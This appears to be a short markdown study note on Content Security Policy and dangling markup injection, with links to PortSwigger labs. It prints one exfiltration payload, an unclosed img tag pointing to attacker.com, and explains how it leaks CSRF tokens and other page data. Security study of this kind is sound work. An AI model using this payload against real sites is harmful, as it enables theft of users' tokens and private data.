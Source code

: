 ## what is CSP

- CSP is a browser security mechanism that aims to mitigate XSS and some other attacks.
- it works by restricting the resources(i.e scripts and images)
- TO enable `CSP` a response needs to include HTTP response header called `Contet-Security-Policy` with value containing the policy. the policy consists of one or more directive, separated by semicolons.

## mitigating XSS attack using CSP

`CSRF+ XSS` example:
[lab scenario](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack)

# Dangling Markup Injection

## what is Dangling Markup Injection

- it is a technique for capturing data cross-domain in situation where a full XSS attack isn't possible.
- if normal Xss isn't possible due to input filters or CSP or other Obstacles here it might still be possible to deliver a `dangling markup injection` attack using a payload like the following

```
"><img src='//attacker.com?

```

This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.

- The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include CSRF tokens, email messages, or financial data.
`Example labs`[lab1](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-very-strict-csp-with-dangling-markup-attack)[lab2](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-with-dangling-markup-attack)

# [prevention](https://portswigger.net/web-security/cross-site-scripting/preventing)